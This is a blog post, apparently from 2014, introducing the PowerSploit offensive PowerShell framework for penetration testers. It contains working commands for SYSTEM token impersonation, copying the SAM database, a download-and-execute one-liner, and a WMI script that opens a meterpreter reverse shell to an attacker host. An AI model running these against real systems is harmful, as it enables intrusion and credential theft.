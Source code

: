 ```yaml
---
title: PowerSploit
author: Matt Graeber
type: post
date: 2014-07-08T16:00:53+00:00
url: /2014/07/08/powersploit/
categories:
  - InfoSec
  - Security
  - Module Spotlight
  - PowerSploit
tags:
  - InfoSec
  - Security
  - Modules
  - PowerSploit

---
```

[PowerSploit][1] is an offensive security framework for penetration testers and reverse engineers. It was born out of the realization that PowerShell was the ideal post-exploitation utility in Windows due to its ability to perform a wide range of administrative and low-level tasks all without the need to drop malicious executables to disk, thus, evading antivirus products with ease. PowerSploit is a collection of modules broken down into the following high-level tasks:

  1. CodeExecution &#8211; Perform low-level code execution and code injection.
  2. ScriptModification &#8211; Modify and/or prepare scripts for execution on a compromised machine.
  3. Persistence &#8211; Add persistence capabilities to a PowerShell script.
  4. PETools &#8211; Parse/manipulate Windows portable executables.
  5. Capstone &#8211; A PowerShell binding for the [Capstone Engine][2] disassembly framework.
  6. ReverseEngineering &#8211; A wide range of reverse engineering tools
  7. AntivirusBypass &#8211; Defeat AV byte signatures in executables.
  8. Exfiltration &#8211; Steal sensitive data from a compromised machine.
  9. Mayhem &#8211; Perform destructive actions.
 10. Recon &#8211; Tools to aid in the reconnaissance phase of a penetration test

PowerSploit was created by [Matt Graeber][3] (@mattifestation) and its current maintainer and primary developer is [Chris Campbell][4] (@obscuresec). It has also greatly benefitted by the contributions of [Joe Bialek][5] (@JosephBialek) and [Rich Lundeen][6] (@RichLundeen).

PowerSploit&#8217;s claim to fame is that it was the first offensive security framework written for PowerShell. However, it&#8217;s certainly not the only game in town. [Nishang][7], written by [Nikhil Mittal][8] (@nikhil_mitt) and the [post-exploitation module][9] in Posh-SecMod written by [Carlos Perez][10] (@Carlos_Perez), and <a href="https://www.veil-framework.com/veil-powerview" title="Veil-PowerView" target="_blank">Veil-PowerView</a> by <a href="http://www.harmj0y.net/blog/" title="Will Schroeder's blog" target="_blank">Will Schroeder</a> (@harmj0y) are all outstanding alternatives and complements to PowerSploit worth checking out.

Prior to the inception of _PowerSploit_, _PowerSyringe_ was developed &#8211; a PowerShell implementation of a shellcode injection utility called [Syringe][11]. For those unfamiliar with the concept, a shellcode injection utility is a tool that writes and executes a series of malicious assembly language instructions into a targeted process. There are many malicious tasks that shellcode payloads will perform but the most common payload will typically spawn a reverse shell &#8211; i.e. connect to an attacker controlled machine from which malicious commands are received and executed.

As the desire for more offensive tools increased, and more tools were developed, it was only natural to break out functionality into single ps1 files and package everything into a module while mostly adhering to PowerShell best practices. As more tools were developed and the scope of the project increased it also made more sense to rename the project to something that reflected its evolution into a full-fledged PowerShell-based offensive security framework that offered a subset of the functionality present in MetaSploit. PowerSploit was a natural choice.

Enough background. Let’s see PowerSploit in action…

_Invoke-ShellcodeMSIL_ is a variant of Invoke-Shellcode. They are both shellcode execution scripts but _Invoke-ShellcodeMSIL_ was chosen for this example because if the shellcode has a return value, it will be returned to your PowerShell session. This makes for a better demonstration. Invoke-Shellcode is more powerful but it will not return output to the PowerShell session.

_Invoke-ShellcodeMSIL_ will be used to invoke the following X64 assembly language code:

<pre class="brush: plain; title: ; notranslate" title="">MOV RAX, 0x10
MOV RCX, 0x10
ADD RAX, RCX
RET
</pre>

This shellcode simply adds 16 and 16 and returns the sum. The byte representation of the shellcode is seen in the example that follows.

<pre class="brush: powershell; title: ; notranslate" title="">Invoke-ShellcodeMSIL -Shellcode @(0xB8,16,0,0,0,0xB9,0x10,0,0,0,0x48,1,0xC8,0xC3)
</pre>

This was just a simple non-malicious proof of concept example but it should serve as a sufficient demonstration of PowerShell’s ability to perform low-level code execution. Now, using the Capstone module in PowerSploit we can disassemble the assembly language code from the previous example.

```
Get-CSDisassembly -Architecture X86 -Mode Mode64 -Code @(0xB8,16,0,0,0,0xB9,0x10,0,0,0,0x48,1,0xC8,0xC3) 

Address    Mnemonic Operands
-------    -------- --------
0x00000000 mov      eax, 0x10
0x00000005 mov      ecx, 0x10
0x0000000A add      rax, rcx
0x0000000D ret
```

Invoke-TokenManipulation_ can be used to enumerate available logon tokens on a system and impersonate any one of them. For example, Invoke-TokenManipulation can be used to spawn a process as NT AUTHORITY\SYSTEM

<pre class="brush: powershell; title: ; notranslate" title="">Invoke-TokenManipulation -Enumerate
Invoke-TokenManipulation -Username 'NT AUTHORITY\SYSTEM' -CreateProcess cmd.exe
</pre>

A common post-exploitation task performed is to steal password hashes by obtaining the SAM database on a workstation or the ntds.dit database on a domain controller. These files are locked by the kernel and cannot be accessed using built-in Windows tools. Fortunately, there are two methods of obtaining these files with _PowerSploit&#8211;Get/Mount-VolumeShadowCopy_ and _Invoke-NinjaCopy_.

The first example shows how a backed up version of the SAM database can be copied with ease by obtaining it within a mounted volume shadow copy.

<pre class="brush: powershell; title: ; notranslate" title="">Get-VolumeShadowCopy | Mount-VolumeShadowCopy -Path $PWD
cp $PWD\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
</pre>

The next example demonstrates Invoke-NinjaCopy being used to extract the live SAM database by getting a handle to the raw disk and carving out the target file from the relevant NTFS data structures.

<pre class="brush: powershell; title: ; notranslate" title="">Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination $PWD\SAM
</pre>

There are many other useful tools present in PowerSploit which cannot all be covered in the interest of time. The following tools merit an honorable mention, however:

  * Invoke-Mimikatz – Load and execute a strictly memory-resident copy of [Mimikatz][12] – a full-featured credential dumping utility
  * Invoke-DllInjection – Inject a malicious DLL into a target process
  * Add-Persistence – Add persistence capabilities to any script or script block
  * Get-GPPPassword – Retrieve plain text group policy preference passwords
  * Get-VaultCredential – Retrieve Windows vault credentials
  * Get-TimedScreenshot – Take screenshots from a victim machine
  * Get-Keystrokes – Keylogger
  * Invoke-Portscan – Port scanner
  * Out-Minidump – Dump process memory to disk for offline analysis and/or credential harvesting
  * Get-PEHeader – Parse PE files on disk and in memory
  * Get-ILDisassembly – A .NET method disassembler
  * Get-Member (proxy function) – Display non-public .NET members by adding the -Private switch to Get-Member
  * Get-Strings – Print human-readable strings from memory
  * Out-EncryptedScript – Script encryption utility
  * Set-CriticalProcess – Cause Windows to blue screen upon exiting the process

Pentesters often ask how to perform the initial infection of a machine with PowerShell and how to go about obtaining and executing PowerSploit scripts on the victim machine. Remote PowerShell code execution can be achieved via the following, non-exhaustive list of techniques:

  1. PowerShell remoting &#8211; Requirements: Remoting must be enabled and the attacker has obtained user credentials
  2. WMI – Requirements: WMI service must be running, DCOM ports allowed through the firewall, and administrative credentials (in most cases)
  3. PsExec – Requirements: SMB allowed through the firewall and user credentials
  4. An exploit – Requirements: Remotely exploitable software and a sufficiently engineered exploit capable of bypassing all enabled exploit mitigations
  5. A command injection vulnerability – Requirements: A vulnerable service that fails to sanitize potentially malicious user input and consequently executes the malicious user input

Obtaining and executing malicious PowerSploit functions is made easy in PowerShell with the help of the .NET WebClient class and _Invoke-Expression_. Once code execution is gained on a victim machine, all the takes is a simple one-liner to download and execute a payload:

<pre class="brush: powershell; title: ; notranslate" title="">powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/e0Mw9w')"
</pre>

While this one-liner is ugly and certainly doesn’t conform to a single PowerShell best-practice, it is all an attacker needs to execute any arbitrary code on a compromised machine entirely in memory and all without having to worry about the execution policy.

To demonstrate an initial remote compromise in action, we will use WMI, specifically the static Create method of the _Win32_Process_ object to download and execute Invoke-Shellcode on a victim machine for which we have stolen credentials. Once executed, it will connect to the attacker controlled machine and spawn a reverse shell using HTTP as its transport.

```
$VictimIP = '192.168.124.130'
$AttackerIP = '192.168.124.1'
$Hostname = 'WIN-92SPQPW9R24'
$Username = 'DevelopersDevelopersDevelopers'
$Credential = Get-Credential -Credential "$Hostname\$Username"

# Attacker then enters the password of the user

$Command = {Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost $AttackerIP -Lport 80}
$InvokeShellcodeUrl = 'https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'
$PayloadString = "iex(New-Object Net.WebClient).DownloadString('$InvokeShellcodeUrl');$Command"

$Parameters = @{
    ComputerName = $VictimIP
    Credential = $Credential
    Class = 'Win32_Process'
    Name = 'Create'
    ArgumentList = "powershell -nop -c $PayloadString"
}

Invoke-WmiMethod @Parameters
```

As a final note, some astute readers may have noticed that the overwhelming majority of scripts present in PowerSploit are written in PowerShell 2.0 syntax. This is necessary because it is naïve for a pentester to think that an organization will ever have the latest version of PowerShell deployed. At the same time, it is exceedingly unlikely that PowerShell 1.0 will be installed on a machine thus, 2.0 syntax was chosen as the lowest common denominator. Additionally, most scripts in PowerSploit are packaged as individual scripts and they rarely contain any external dependencies. This makes it so that a pentester doesn’t have to download PowerSploit in its entirety to a victim machine. He/she only has to download just enough code to achieve their goal.

Hopefully by now, you have a better understanding of the capabilities of and motivations behind PowerSploit. Happy hacking!

[1]: https://github.com/mattifestation/PowerSploit
[2]: http://www.capstone-engine.org/
[3]: http://www.exploit-monday.com/
[4]: http://obscuresecurity.blogspot.com/
[5]: http://clymb3r.wordpress.com/
[6]: http://webstersprodigy.net/
[7]: https://github.com/samratashok/nishang
[8]: http://www.labofapenetrationtester.com/
[9]: https://github.com/darkoperator/Posh-SecMod/blob/master/PostExploitation/PostExploitation.psm1
[10]: http://www.darkoperator.com/
[11]: http://www.securestate.com/Documents/syringe.c
[12]: http://blog.gentilkiwi.com/mimikatz